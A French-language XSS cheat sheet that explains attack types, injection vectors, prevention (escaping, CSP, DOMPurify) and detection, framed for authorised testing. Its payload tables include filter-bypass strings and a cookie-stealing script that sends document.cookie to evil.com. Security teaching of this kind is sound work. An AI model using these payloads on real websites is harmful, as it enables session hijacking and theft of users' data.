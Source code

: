 # XSS.md

## Cheat Sheet - XSS (Cross-Site Scripting)

Ce document présente les attaques XSS, leurs mécanismes, exemples et défenses, à utiliser dans des environnements contrôlés et légaux uniquement.


---

## 1. Comprendre XSS

XSS permet à un attaquant d’injecter du code malveillant (souvent JavaScript) dans une page web vue par d’autres utilisateurs, en exploitant un manque de validation des entrées.

| **Aspect**           | **Description**                                      |
|----------------------|-----------------------------------------------------|
| **Cible**            | Navigateur des utilisateurs                        |
| **Condition**        | Entrée non sanitizée ou mal échappée               |
| **Moyen**            | Injection de scripts (HTML, JS, etc.)              |
| **Impact**           | Vol de données, redirection, exécution de code     |

---

## 2. Types d'attaques XSS

### Reflected XSS
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `http://site.com?q=<script>alert(1)</script>` | Script renvoyé dans la réponse via un paramètre |

### Stored XSS
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `<script>alert('Hacked')</script>` (dans un commentaire) | Stocké sur le serveur et exécuté pour tous     |

### DOM-based XSS
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| ```javascript                            | Manipulation directe du DOM                      |
| document.write(location.search.slice(1)) |                                                  |
| ```                                      | Exécuté côté client sans aller au serveur        |

---

## 3. Vecteurs d’injection courants

| **Vecteur**          | **Exemple**                                         |
|----------------------|----------------------------------------------------|
| **Balises HTML**     | `<script>alert(1)</script>`                       |
| **Attributs HTML**   | `<img src="x" onerror="alert(1)">`                |
| **JavaScript**       | `eval(prompt('Code ici'))`                        |
| **CSS**              | `<style>body{background:url(javascript:alert(1))}</style>` |

---

## 4. Exemples de payloads XSS

### Payloads simples
| Payload                          | Description                                      |
|----------------------------------|--------------------------------------------------|
| `<script>alert('XSS')</script>`  | Alerte basique                                   |
| `<img src=x onerror=alert(1)>`   | Exécuté si l’image ne charge pas                 |
| `<a href="javascript:alert(1)">Clique</a>` | Exécuté au clic                       |

### Payloads avancés
| Payload                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `<script>document.location='http://evil.com?cookie='+document.cookie</script>` | Vol de cookies |
| `"><script>alert(1)</script>`            | Sortie d’un attribut HTML                        |
| `%3Cscript%3Ealert(1)%3C/script%3E`      | Encodé URL pour contourner les filtres           |

---

## 5. Préventions contre XSS

### Mécanismes de base
| **Méthode**          | **Description**                                      |
|----------------------|-----------------------------------------------------|
| **Échappement**      | Encoder `<` en `&lt;`, `"` en `&quot;`            |
| **Sanitisation**     | Supprimer ou filtrer les balises dangereuses       |
| **CSP**              | Content Security Policy pour limiter les scripts   |

### Exemples d’implémentation
| **Technique**        | **Code/Exemple**                                    |
|----------------------|----------------------------------------------------|
| **Échappement PHP**  | `echo htmlspecialchars($input, ENT_QUOTES, 'UTF-8');` |
| **CSP dans header**  | `Content-Security-Policy: script-src 'self';`      |
| **Filtrage JS**      | Utiliser DOMPurify ou bibliothèques similaires     |

### Contournements possibles
| **Faille**           | **Explication**                                      |
|----------------------|-----------------------------------------------------|
| **Mauvais encodage** | Oubli d’échapper dans tous les contextes (HTML, JS) |
| **CSP faible**       | Autorise `unsafe-inline` ou sources non sécurisées  |
| **Injection DOM**    | Sanitisation serveur inefficace contre DOM XSS     |

---

## 6. Détection de vulnérabilités XSS

| **Test**             | **Méthode**                                         |
|----------------------|----------------------------------------------------|
| **Injection manuelle** | Tester `<script>alert(1)</script>` dans les champs |
| **Outils**           | Burp Suite, XSS Hunter, OWASP ZAP                  |
| **Symptôme**         | Exécution de code ou popup inattendue              |

---

## 7. Variantes avancées

### XSS + CSRF
- Injecter un script pour déclencher une attaque CSRF.

### Self-XSS
| Exemple                                  | Description                                      |
|------------------------------------------|--------------------------------------------------|
| `console.log('Test');` (via console dev) | Utilisateur piégé pour exécuter son propre code  |

---

## Précautions
- **Usage légal uniquement** : Tests dans des environnements autorisés.
- **Outils recommandés** : Burp Suite, XSSer pour automatisation.
- **Standards** : Suivre OWASP XSS Prevention Cheat Sheet.
